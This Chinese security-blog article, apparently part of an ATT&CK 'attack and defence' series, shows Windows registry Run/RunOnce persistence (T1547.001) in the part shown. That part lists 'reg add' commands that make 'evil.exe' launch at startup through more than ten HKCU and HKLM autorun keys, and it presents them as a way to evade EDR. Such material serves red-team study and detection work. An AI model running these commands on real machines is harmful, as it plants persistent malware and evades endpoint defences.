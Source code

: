 

# ATT&CK 中的攻与防——T1574 - 先知社区

ATT&CK 中的攻与防——T1574

- - -

# 前言

此篇文章为 ATTCK 矩阵中的攻与防的第三篇，T1574 是 windows 里面常见的规避 EDR 常用的渗透横向技巧，大部分技巧在互联网上都有师傅们分享，笔者只是将其中的内容总结起来，以 ATT&CK 矩阵来探究其中的攻防之道，注册表在 windows 中一直扮演着极其重要的角色，如若文章有技术问题，欢迎各位师傅在评论区交流

# T1547.001 (Persistence,Registry Run Keys / Startup Folder)

通过对注册表的修改，达到一个开机自启动的效果，形成权限维持或者权限提升亦或者 EDR 的规避  
最常见的就是我们的**run&&runonce**这 2 个注册表键值

```plain
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```

将/d 的值换成恶意文件的位置，就可以达成开机自启动，runonec 开机一次就会移除服务  
当然，如果有些键值确实存在，我们想要新增，要想跳过此次确认，可以/f 强制添加  
[![](assets/1706145586-f25d3a6ec79b587c9f1daa0f50f2fe0e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124110912-f2cb0f54-ba65-1.png)

对于 reg 操作相关注册表，我们可以通过 query，查看相关键值的具体值，其余相关的注册表位置

```plain
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_CURRENT_USER\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservicesonce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\runservices" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\congya\axingg\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\software\wow6432node\microsoft\windows\currentversion\runOnce" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
reg add "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\Explorer\Run" /v calc /t REG_SZ /d "C:\Users\axingg\desktop\evil.exe"
```
